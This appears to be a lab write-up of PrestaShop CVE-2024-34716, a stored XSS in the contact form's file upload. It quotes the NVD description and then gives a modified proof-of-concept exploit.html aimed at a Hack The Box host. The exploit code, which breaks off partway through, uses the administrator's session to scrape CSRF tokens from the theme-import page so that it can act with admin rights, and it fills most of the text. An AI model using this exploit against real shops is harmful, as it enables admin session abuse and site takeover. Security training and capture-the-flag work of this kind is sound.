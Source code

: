 # PrestaShop CVE-2024-34716

Source:https://nvd.nist.gov/vuln/detail/CVE-2024-34716

PrestaShop is an open source e-commerce web application. A cross-site scripting (XSS) vulnerability that only affects PrestaShops with customer-thread feature flag enabled is present starting from PrestaShop 8.1.0 and prior to PrestaShop 8.1.6. When the customer thread feature flag is enabled through the front-office contact form, a hacker can upload a malicious file containing an XSS that will be executed when an admin opens the attached file in back office. The script injected can access the session and the security token, which allows it to perform any authenticated action in the scope of the administrator's right. This vulnerability is patched in 8.1.6. A workaround is to disable the customer-thread feature-flag.

# POC

Source: https://github.com/aelmokhtar/CVE-2024-34716

It was necessary to replace the default administrator directory with the custom directory discovered in the repo as shown below. 

### Modified exploit.html

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta viewport="width=device-width, initial-scale=1.0">
    <title>Exploit</title>
</head>
<body>
    <script>
        async function fetchTokenFromHTML() {
            const url = 'http://shop.trickster.htb/admin634ewutrx1jgitlooaj/index.php/improve/design/themes/import';
            try {
                const response = await fetch(url, {
                    method: 'GET',
                    credentials: 'include',
                    redirect: 'follow'
                });
                if (!response.ok) throw new Error('Failed to fetch the page for token extraction. Status: ' + response.status);
                
                const htmlText = await response.text();
                const parser = new DOMParser();
                const doc = parser.parseFromString(htmlText, "text/html");
                
                const anchor = doc.querySelector('a.btn.btn-lg.btn-outline-danger.mr-3');
                const href = anchor ? anchor.getAttribute('href') : null;
                const match = href ? href.match(/_token=([^&]+)/) : null;
                const token = match ? match[1] : null;
                if (!token) throw new Error('Token not found in anchor tag href.');
                
                console.log('Extracted Token from HTML:', token);
                return token;
            } catch (error) {
                console.error('Error fetching token from HTML content:', error);
                return null;
            }
        }

        async function fetchCSRFToken(token) {
```